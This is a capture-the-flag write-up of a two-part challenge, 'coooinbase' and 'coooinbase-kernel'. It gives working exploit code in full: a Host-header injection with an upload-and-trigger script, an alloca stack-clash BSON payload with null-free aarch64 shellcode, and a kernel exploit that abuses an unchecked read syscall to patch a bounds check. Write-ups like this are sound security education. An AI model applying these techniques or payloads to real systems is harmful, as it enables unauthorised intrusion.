

# coooinbase / coooinbase-kernel writeup
This challenge was split into two parts, the first part being user-space
exploitation, and the second one being kernel exploitation.

Solved by: Eskildsen, [PewZ](https://twitter.com/0xbadcafe1),
[zanderdk](https://twitter.com/alexanderkrog)


## coooinbase (27 solves)
```none
a simple service backed by special hardware for buying bitcoin: our beta
testing server is live at http://52.6.166.222:4567
```

This is how the website looks like:


One thing that sticks out is the link saying **custom hardware**. The link
leads to `http://52.6.166.222:4567/src`, which is an archive containing a bunch
of files. Let's take a look:
```console
$ curl http://52.6.166.222:4567/src -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 82673  100 82673    0     0   124k      0 --:--:-- --:--:-- --:--:--  124k
$ file src
src: gzip compressed data, was "dist.tar", last modified: Fri Apr 30 22:05:42 2021, max compression, from Unix, original size modulo 2^32 67164160
$ tar xvf src
dist/
dist/x.rb
dist/coooinbase.bin
dist/rootfs.img
dist/x.sh
dist/x.html
```

At this point some people started looking at the web stuff, while me and zander
started looking into `coooinbase.bin` and `rootfs.img`. Let's first take a look
at the website.

### Website
We do not have to give it valid information, we can give arbitrary file input.
The /buy endpoint takes the input value `HTTP_HOST` which we can just define
using curl:
```ruby
post '/buy' do
  uri = URI.parse("http://#{env['HTTP_HOST']}/gen-bson")
  b6 = Net::HTTP.post_form(uri, params).body
```

Bypass:
```console
$ curl "http://52.6.166.222:4567/buy" -H "Host: our-website.com/somewhere" -X POST
```

This will effectively take the contents of
`http://our-website.com/somewhere/gen-bson` and write it to the file. Thus
**bypassing all validation**.

#### Helper script for uploading
The below script uploads the file to a website and then triggers the bypass
from above.
```python
import requests
import sys
import os

if len(sys.argv) < 2:
    print("Usage: {} <filename>".format(sys.argv[0]))
    exit(1)

filename = sys.argv[1]

if not os.path.isfile(filename):
    print("File not found!")
    exit(1)

# Upload file to remote server
url = "https://our-website.com/lol"
r = requests.post(url, files={"file": open(filename,'rb')})
assert r.status_code == 200
print("[+] Payload uploaded to temporary server. Triggering...")

# Trigger it
r = requests.post("http://52.6.166.222:4567/buy", headers={"Host": "our-website.com/files/target.html#"})
print(r.status_code)
print(r.text)
```

### Binaries

The rootfs image can be mounted:
```console
$ mkdir mnt
$ sudo mount rootfs.img ./mnt
$ ls mnt
bin  flg  run
```

Turns out that `bin` and `run` are the same binary:
```console
$ md5sum mnt/* | sort
9b458bf5b88e45fed9efd45edfb5c5a2  mnt/bin
9b458bf5b88e45fed9efd45edfb5c5a2  mnt/run
fde1f3e25a00748503e74ec95dd4dcb5  mnt/flg
```

The `bin` binary is an aarch64 program in some sort of custom binary format (is
it based on something real?), that starts with a branch instruction into what
seems to be the main function. The binaries are loaded at address `0x00`, and
the stack pointer starts at `0x10000`.

We figured out the load address by searching through the kernel for `eret`
instructions, which are used to return from the kernel back into userspace. By
placing a breakpoint on the `eret` and single-stepping we end up at the address
after whatever syscall was just executed. To find the kernel load address, we
noticed that the kernel had references to several addresses around
`0xffff000000080000`, so we tried rebasing the kernel in IDA to that address
and it worked. After finding the syscall handler we also found the syscall
table at `0xffff000000087140`. There are only 10 syscalls in the kernel, and
some of them aren't implemented (they only return 0).


This allowed us to place breakpoints in the binary which greatly simplified
reversing. After reversing for a while, we found out that the program looks
something like this:

```c
int main(void)
{
    char buf[512];
    char decoded[1024];
    char c;
    size_t pos = 0;
    size_t len, actual_len;
    char *processed_cc;
    
    do {
        c = sys_getchar();
        buf[pos++] = c;
        if (c == ' ')
            run = 0;
        else
            run = pos <= 511;
    } while (run);
    buf[pos] = '\0';
    buf[pos + 1] = '\0';
    
    len = strlen(buf);
    actual_len = b64len(len);
    base64decode(buf, len, decoded);
    
    /* some bson checks */
    
	parse_int("CVC", ctx, &cvc);
	parse_int("MON", ctx, &mon);
	parse_int("YR", ctx, &yr);
    parse_string("CC", ctx, &processed_cc);

    sys_print("PROCESSED CC: ");
    sys_print(processed_cc);
    sys_print("\n");
}
```

We know that the program is parsing [BSON](https://en.wikipedia.org/wiki/BSON)
based on the code for the website (`x.rb`). This also helped us understand the
BSON parsing code in the binary.

There are several functions dedicated to parsing the BSON input, but the most
interesting one is the one we have named `parse_string()`. We looked for bugs
in the other functions, and the base64 decoding, but couldn't find anything
there. Following is the interesting part of `parse_string()`:

```c
value_ptr = &bson->current[key_len + 1];  // skip the key
bson->current = value_ptr;
memcpy(&string_size, value_ptr, sizeof(string_size));
v10 = string_size + 15i64;                // alloca?
v11 = v10 & 0xFFF0;
v12 = &v14[-(v10 & 0xFFFFFFFFFFFF0000ui64)];
while ( v14 != v12 )
    ;
if ( v11 >= 1024ui64 )
    STACK[0x10460] = 0i64;                  // hmmm
value = bson->current;
*output = buf;
strcpy(buf, value + 4);
bson->current += string_size + 4;         // skip string and size field
result = 0i64;
```

(The output is a little messy since it's taken from IDA.)

At first we thought we could overflow `buf` through `strcpy()`, but we couldn't
get that to work. It turns out that all the magic stuff happening before the
`strcpy()` call is actually `alloca()`. If you're not familiar with this
function, it's basically `malloc()` on the stack. ~~Except that you should
never use it for anything.~~

User-controlled sizes to `alloca()` are very unsafe. That function basically
just subtracts the provided size from the stack pointer. Recall that the stack
pointer was pretty low, and the binaries are loaded at address `0x00`.

If we can trick the binary into subtracting whatever we want from the stack
pointer, we can make the stack clash into the code section, allowing us to
overwrite existing code with null-free shellcode. The shellcode has to be free
of null bytes since the program is using `strcpy()` to copy our data.

This is how a BSON string object looks like in memory:
```none
\x02
hello\x00
\x06\x00\x00\x00world\x00
\x00
```

The first byte, 0x02, is the type of the object. In this case, it's a string
object. Following is the key, which is "hello". The key is null-terminated.
Then we have the length of the string, as a 32-bit int. Then there's a null
byte to signal the end of the object. The code mentioned above does not verify
the length field, but directly passes it to `alloca()` to allocate room on the
stack for the string. Something like this in pseudo C:

```c
char *buf = alloca(string_size);
strcpy(buf, bson_string);
```

We can (ab)use this to point buf into the code section of the binary. We ended
up writing shellcode to address `0x310`, which is the address of the print
syscall. That syscall is the only one being called after the program has parsed
the vulnerable piece of BSON data.

So what should our shellcode do to read the flag? From the rootfs image we know
that there's a file called `flg` that contains the flag. From reversing the
kernel, we figured out that syscall 4 is `open`, 0 is `print`, and 5 is `read`.
And this is exactly what we need! So this is what we are doing in pseudocode:

```c
int fd = open("/flg", 0);
char *buf = (char *)0x610;
read(fd, buf, 0x88);
print(buf);
```

And this is what we came up to make the shellcode null-free:
```asm
.section .text
.global _start

_start:
	// open
	mov x0, 0x354
	mov x1, xzr
	mov x8, 0x184
	sub x8, x8, 0x180
	svc  0x1337

	// read
	mov x1, 0x610
	mov x2, 0x88
	mov x8, 0x185
	sub x8, x8, 0x180
	svc  0x1337

	// print
	mov x1, 0x610
	mov x0, x1
	mov x8, xzr
	svc 0x1337

	// jmp back to entry
	mov x20, xzr
	br x20

path:
.ascii "AAAA/flg"
```

Now all that's missing is to create a malicious BSON object that contains our
shellcode and send that to the website. This is the dirty python script we
used to create the base64 encoded data that we're supposed to send:

```python
import bson
from pwn import *

obj = {
    'CVC': 545,
    'MON': 5,
    'YR': 2021,
    'CC': "AAAAAAAAAAAAAAAAAAAAAA"
}

# lol
os.system("aarch64-linux-gnu-gcc-10 pwn.S -o pwn -static -fno-builtin -Wl,-e_start -nostdlib")
os.system("aarch64-linux-gnu-objcopy --only-section=.text -O binary pwn pwn.bin")
shellcode = open("pwn.bin", "rb").read()

if b"\x00" in shellcode:
    print("try harder!!!!")
    sys.exit()

bs = bson.dumps(obj)

# this is the offset used to make the stack clash with address 0x310
le = 0xf640

l, r = bs.split(b'\x17\x00\x00\x00')
r = r.split(b"AAAAAAAAAAAAAAAAAAAAAA")[1]
r = shellcode + r
res = l + p32(le, endian="little") + r

# add a space since the binary stops reading when it hits a space
print(b64e(res) + " ")
```
And this is the resulting base64 blob:
```none
PgAAABBDVkMAIQIAABBNT04ABQAAABBZUgDlBwAAAkNDAED2AACAaoDS4QMfqogwgNIIAQbR4WYC1AHCgNICEYDSqDCA0ggBBtHhZgLUAcKA0uADAaroAx+q4WYC1PQDH6qAAh/WQUFBQS9mbGcAAA==
```

We can test it locally before running it against the remote service:
```console
$ python3 solve.py |./x.sh
OOO{this_is_from_userland}
qemu-system-aarch64: terminating on signal 15 from pid 2599682 (timeout)
```

Now let's use the helper script mentioned earlier to send our payload to the
server!

```console
$ python3 solve.py > rofl
$ python3 upload.py ./rofl
[+] Payload uploaded to temporary server. Triggering...
200
NO - OOO{if you cant read this youre not part of the forbes 30 under 30}
```

## coooinbase-kernel (26 solves)
```none
a simple service backed by special hardware for buying bitcoin: our beta
testing server is live at http://52.6.166.222:4567 - this time attack the
kernel!
```

So this challenge is a follow-up of the first one, but this time we have to pwn
the kernel instead. When solving the first part of the challenge we reversed
quite a bit of the kernel, which helped us understand the different syscalls.
We assumed that the most likely attack surface was the syscalls so this is
where we started looking for bugs.

After some trial and error we figured out that the `read` syscall did not check
that we use a valid destination buffer address. The kernel should check that
the buffer is a user-space address, or else a malicious program can overwrite kernel data.

Since there are no checks in place, we can copy file data into the kernel using
this syscall. We first tried copying instructions from the `/bin` file into the
kernel, but for some reason it would only return null bytes, even though we
tried seeking into the file. We quickly gave up on this approach and didn't try
to figure out why it was happening.

At that point we decided to try and use the bytes from the flag. But what
should we target? We know that the flag resides in kernel memory at address
`0xffff00000008885`. Maybe there's a way to trick the print syscall into
printing the flag? The syscall looks something like this:

```c
void sys_print(const char *str)
{
    if ((unsigned int)str <= 0xffff)
        printk("%s", str);
}
```

Which means that (normally) there's no way to pass kernel pointers to this
function. This is how the function looks like in assembly:
```none
MOV             W1, #0xFFFF
CMP             W0, W1
B.LS            loc_FFFF000000082A60
RET
STP             X29, X30, [SP,#var_10]!
MOV             X29, SP
MOV             X1, X0
ADRL            X0, aS  ; "%s"
BL              printk
LDP             X29, X30, [SP+0x10+var_10],#0x10
RET
```

At that point we got an idea to try and overwrite one byte of one of these
instructions. So we wrote a tiny Python script that would pick one byte of the
flag and insert it into an instruction at different indexes.

```python
#!/usr/bin/env python3
from capstone import *

flag = b"OOO{if you cant read this youre not part of the forbes 30 under 30}"
#flag = b"\x00"
# b.ls
#inst = bytes.fromhex("49000054")
# cmp
inst = bytes.fromhex("1F00016B")
md = Cs(CS_ARCH_ARM64, CS_MODE_ARM)
for c in flag:
    for pos in range(len(inst)):
        lh = inst[:pos]
        rh = inst[pos+1:]
        new_inst = lh + bytes([c]) + rh
        print(new_inst)
        assert len(new_inst) == 4

        print(f"char {chr(c)} at pos {pos}")
        for i in md.disasm(new_inst, 0x1000):
            print("0x%x:\t%s\t%s" %(i.address, i.mnemonic, i.op_str))
```

We tried changing both the `cmp` and `b.ls` instruction. It ended up being
easier than we though, since the first instruction that showed up when we ran
our script with the `cmp` instruction was the following: `subs w15, w2, w1`.
We assumed that this would either set up the flags so that the branch would
work, or that we could control `w2` and `w1` to make it trigger. In the end we
didn't have to do any modifications, just change this one byte of the `cmp`
instruction with the first byte of the flag ("O") and the check passed every
time.

This is the shellcode that we ended up using (which had to be null-free because
the userspace exploit uses `strcpy()` to copy our shellcode).

```asm
.section .text
.global _start

_start:
	// open
	mov x0, 0x394
	mov x1, xzr
	mov x8, 0x184
	sub x8, x8, 0x180
	svc  0x1337

	// read
	mov x0, xzr
	mov x1, 0xFFFF
	mov x8, 0x1b0
	sub x8, x8, 0x180
	lsl x1, x1, x8
	// now add 0x80000
	mov x8, 0x190
	sub x8, x8, 0x180
	mov x20, 0x188
	sub x20, x20, 0x180
	lsl x20, x20, x8
	mov x21, x1
	orr x21, x21, x20
	mov x20, 0x2A54
	add x21, x21, x20
	mov x1, x21
	mov x8, 0x181
	sub x8, x8, 0x180
	mov x2, x8
	mov x8, 0x185
	sub x8, x8, 0x180
	svc 0x1337

	// print
    // the other kernel address already in x21
    // add the offset to the kernel flag
	mov x20, 0x5e04
	add x1, x21, x20
	mov x0, x1
	mov x8, xzr
	svc 0x1337

	// jmp back to entry
	mov x20, xzr
	br x20

path:
.ascii "/flg"
```
(If anyone knows any aarch64 tricks to get this shellcode smaller please hit us
up :)))

And after sending this shellcode we get the flag!

`OOO{forbes 31 under 31 :)}`
